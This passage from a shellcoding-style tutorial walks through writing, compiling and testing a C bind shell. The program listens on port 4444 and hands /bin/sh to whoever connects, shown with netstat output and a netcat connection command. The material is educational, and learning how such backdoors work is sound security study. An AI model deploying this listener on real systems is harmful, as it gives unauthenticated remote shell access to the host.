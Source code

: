 \documentclass[11pt]{article}
\begin{document}
The final step after we get our redirection going is we just need to
run a program, in our case \verb~/bin/sh~ and its output and input should
be connected to our socket. We can run this program using \verb~execve~.

So lets get some code going!

\begin{verbatim}
  #include <stdio.h>
  #include <netinet/in.h>
  #define PORT 4444

  int main(int argc, char **argv) {
    // Create a socket
    int lsock = socket(AF_INET, SOCK_STREAM, 0);

    // Setup servr side config struct
    // We configure:
    // The family:IPv4
    // The interface: 0.0.0.0 (any)
    // The port: port#
    struct sockaddr_in config;
    config.sin_family = AF_INET;
    config.sin_addr.s_addr = INADDR_ANY;
    // The htons() function converts the
    // unsigned short integer hostshort from host byte
    // order to network byte order.
    config.sin_port = htons(PORT);

    // Bind the created socket with the interface
    // specified in the configuration
    bind(lsock, (struct sockaddr *)&config, sizeof(config));

    // Listen on the socket
    listen(lsock, 0);

    // Accept the incoming connection
    int csock = accept(lsock, NULL, NULL);

    // Redirect stdin, stdout, and stderror
    dup2(csock, 0);
    dup2(csock, 1);
    dup2(csock, 2);

    // Execute a shell
    execve("/bin/sh", NULL, NULL);
};
\end{verbatim}

Compiling this code with \verb~gcc bindshell.c -o bindshell~ gives us a
nice executable. Running the executable with \verb~./bindshell~ and then
looking at our network using \verb~netstat -antp~ yields something very
interesting\ldots{}

\begin{verbatim}
root@blahblah:~# netstat -atp Active Internet connections (servers and
established) Proto Local Address Foreign Address State PID/Program
name tcp *:4444 *:* LISTEN 1657/bindshell
\end{verbatim}

Excellent! We have /bin/sh listen bound to a port. If we open up
another terminal and use netcat to connect to port 4444 by running \verb~nc -nv -nv 127.0.0.1 4444~ we will get:
\end{document}
